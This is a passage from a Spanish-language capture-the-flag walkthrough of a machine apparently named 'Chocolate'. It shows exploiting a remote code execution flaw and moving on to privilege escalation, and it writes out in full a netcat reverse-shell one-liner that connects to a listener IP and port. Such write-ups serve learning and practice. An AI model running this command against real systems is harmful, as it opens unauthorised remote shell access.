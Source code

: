 Ahora utilizaremos el comando `mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.123.194 1500 >/tmp/f` para generar una reverse Shell y comprobaremos si no se ha implementado un filtro al lado del servidor que limite las comandos que pueden ingresar los usuarios.

![](/assets/images/Chocolate/image022.png)

![](/assets/images/Chocolate/image023.png)

Podemos observar que logramos acceder al sistema destino mediante la vulnerabilidad RCE.

Ahora ejecutaremos los siguientes comandos para tener una reverse Shell mas estable e interactiva.

![](/assets/images/Chocolate/image024.png)

## FASE ESCALADA PRIVILEGIOS
Ahora buscaremos vectores de escalada privilegios de manera manual en el sistema de archivos del sistema destino.
